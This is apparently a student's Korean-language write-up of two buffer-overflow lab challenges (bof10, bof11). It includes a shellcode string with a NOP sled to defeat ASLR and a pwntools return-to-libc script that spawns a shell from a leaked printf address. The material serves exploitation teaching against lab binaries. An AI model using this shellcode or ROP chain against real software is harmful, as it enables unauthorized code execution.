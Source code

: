# bof10,11 풀이
<details>
<summary>bof10 풀이</summary>
<div markdown="1">
<img src="../image/HW_9/a1.png">bof10. 코드

> SHELLOCDE 환경변수를 설정해서 하는 방법은 `bof8.c`와 매우 유사하다. 그러나 `ASLR ON`이 되어있다!! <BR>***ASLR이 ON이 되어 있으면 실행할 때마다 메모리의 주소가 바뀐다.***<BR>우선 `buf`의 크기가 8byte밖에 되지 않기때문에 **쉘코드**를 넣는 것이 불가능 하다.*(쉘코드의 크기는 27byte)* `bof8`에서 한 방법대로 `export`명령어를 사용하여 `SHELLCODE`환경 변수 값을 설정해준다. <BR>***이 프로그램은 32byte이기 때문에 32byte에 맞는 쉘코드를 넣어주어야 한다!!***

> 우선 SHELLCODE 환경변수를 설정했다.<BR>> ```export SHELLCODE=`python -c "print '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"` ```

> `buf`와 `return`주소의 차이를 구해야 하는데 진짜 너무 많이 했으므로 과정은 생략한다. *한가지 다른점은 이 프로그램은 32byte이기 때문에 `r`이 없다는 것이다.* <BR>이렇게 거리를 구하면 20이 나온다.

> `bof8`과 같이 `buf`에 `쓰레기값 20byte만큼 + 쉘코드의 환경변수 주소`를 넣으면 되지 않을까? 한번 해보았다.

> <img src="../image/HW_9/a2.png"><br>되지 않는다. 환경변수로 설정해준 `SHELLCODE`의 주소가 계속 바뀌는 것을 볼 수 있다. <BR>***ASLR이 ON되어 있기 때문이다!!***<BR>`SHELLCODE`의 주소가 계속 바뀌는데 다음에 어떻게 바뀔지 예측하고 `SHELLOCDE`의 환경변수 주소를 정확하게 찾는 것은 현실적으로 불가능하다.<BR>이 때 사용할 방법은 `NOP`이다. 

> `SHELLCODE` 환경변수를 설정해 줄때 쉘코드 앞에 여러개의 `NOP`를 붙여주면 어디선가 얻어 걸려서 쭈우우욱 타고 내려와 쉘코드를 만나게 된다. `NOP`를 얼마나 넣을지는 위 방법대로 계속 돌려봤을 때 `SHELLOCDE` 주소의 **최대-최소**를 구하면 되겠지만 매우 귀찮으므로 적절한 값을 찾아주는 방법을 사용한다.

> 너무 많은 숫자를 넣으면 다음과 같은 오류가 나타난다. <img src="../image/HW_9/a3.png"><br>여러번 실행해본 결과 130000이 적당했다. 쉘코드 앞에 `NOP`를 130000번 반복해주면 된다.

> ```export SHELLCODE=`python -c "print '\x90'*130000 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"` ```<BR>이 명령어를 통해 SHELLCODE 환경변수를 설정해준다. *(`\x90`이  NOP이다.)*<BR>

> <img src="../image/HW_9/a4.png"><br> 이후 다음과 같은 명령어를 통해 `./bof10`을 실행시켰더니 또 오류가 뜬다. 내가 `SHELLCODE`환경변수에 `NOP`를 **130000**번 반복해서 얻은 범위에 얻어 걸려야 하는데 운이 나빠 걸리지 않은 것이다. 그래서 계속 실행하면서 얻어걸릴 때 까지 반복해야 하므로 while문을 사용한다.

> <img src="../image/HW_9/a5.png"><br>다음과 같이 매우 편리한 방법이 있다. 그러면 계속 반복하다가 어느순간 쉘이 실행되면서 멈추게 되는데 바로 이때이다.<br><img src="../image/HW_9/a6.png"><br>**문제 해결 !**
</div>
</details>

<img src="../image/HW_9/b1.png">bof11.c 코드

> 일단 `bof10`과 같이 `ASLR`이 **ON**되어있다. 그러나 환경변수 주소를 리턴해주는 코드가 없다. 지금까지 배웠던 방법 중 어떤 방법을 사용하면 될까? 바로 `bof9`에서 썼던 **RTL**이다. 

> **RTL**에 대한 자세한 설명은 <a hrep="https://github.com/JeongSeongMok/GBC_Security/tree/master/HW_8">HW_8</a>의 <a hrep="https://github.com/JeongSeongMok/GBC_Security/blob/master/HW_8/README.md">README.md</a>에 있다.<br>`RTL`을 사용하기 위해 구해야 할것은 다음과 같다.
> - `buf`와 `return`주소의 사이 거리 
> - `"pop rdi ; ret"`의 주소
> - `/bin/sh`의 주소
> - `system`함수의 주소

> 그러나 현재 이 파일은 `ASLR`이 **ON**되어 있으므로 **gdb**를 통해 주소값을 구하고 나와 실행시킬 때 해당 주소값을 넣으면 아무런 의미가 없다. 계속 메모리의 주소값이 바뀌기 때문이다. <br>그럼 아예 방법이 없는 것일까?<br>아니다. 코드를 잘보면 `printf("printf() address : %p\n)",print);`구문을 통해 `printf`함수의 주소 값을 출력해준다. 이 말은 즉, 오브젝트파일이 실행될 때 마다 바뀌는 `printf`의 주소값을 그때그때 알 수 있다는 것이다.

> `ASLR`을 통해 메모리의 주소는 계속 바뀌지만 함수간의 주소거리는 바뀌지 않는다는 점을 이용한다. 위에서 언급한 코드를 통해 `printf`주소의 바뀌는 값은 알 수 있기 때문에 **gdb** 디버깅을 통해 **위에서 언급한 필요한 주소들**과 `printf`함수의 주소의 거리를 구해놓는다면 메모리주소가 계속 바뀌어도 상관이 없다!

> 하나씩 차이를 구해보자. *(**gdb**실행 후 `r`을 통해 실행 할 때마다 주소가 바뀌기 때문에 1트안에 모든 것을 구하는 것이 편하다.)*
>> 1. `printf` <-> `system`<br><img src="../image/HW_9/b2.png"><br>**`system`주소 - `print`주소 = -66672**
>> 2. `printf` <-> `/bin/sh`<br><img src="../image/HW_9/b3.png"><br>**`/bin/sh`주소 - `print`주소 = 1275223**
>> 3. `printf` <-> `pop rdi ; ret`<br>`vmmap`과 `ROPgadget.py`를 이용하여 `pop rdi ; ret`의 주소를 얻는 방법은 <a hrep="https://github.com/JeongSeongMok/GBC_Security/tree/master/HW_8">HW_8</a>의 <a hrep="https://github.com/JeongSeongMok/GBC_Security/blob/master/HW_8/README.md">README.md</a>에 있다. 구해서 빼준 결과<br>**`pop rdi ; ret`주소 - `print`주소 = -214782**

> 그러나 또 문제가 있다. `./bof11`로 실행해서 출력값으로 `printf`의 주소 값을 보고나고 실행이 종료되면 다시 `printf`의 주소 값이 바뀌기 때문에 다음 `printf`의 주소값을 예측하는 것은 현실적으로 불가능하다. 그래서 **pwntools**라는 것을 이용한다.

> 아무이름의 python파일을 만들고 다음과 같은 코드를 입력한다.
```
from pwn import *

p = process('./bof11') // ./bof11 프로세스를 p에 저장

p.recvuntil('printf() address : ')
printf_addr = p.recvuntil('\n') // '\n'까지 입력된 출력된 값을 printf_add에 저장
printf_addr = int(printf_addr, 16) // 형 변환

// 위에서 구한 차이를 이용하여 system, /bin/sh, pop rdi ; ret의 위치를 printf의 주소를 이용해 접근한다.
sys_a = printf_addr + (-66672) 
binsh_a = printf_addr + (1275223)
poprdi_a = printf_addr + (-214782)

//exploit에 페이로드 저장
exploit = str.encode("x" * 18)
exploit += p64(poprdi_a) + p64(binsh_a) + p64(sys_a)
p.send(exploit)

p.interactive()
```

> `python3`를 이용하여 만든 python파일을 실행 시키면 다음과 같이 나온다.<br><img src="../image/HW_9/b5.png"><br>**성공!!**
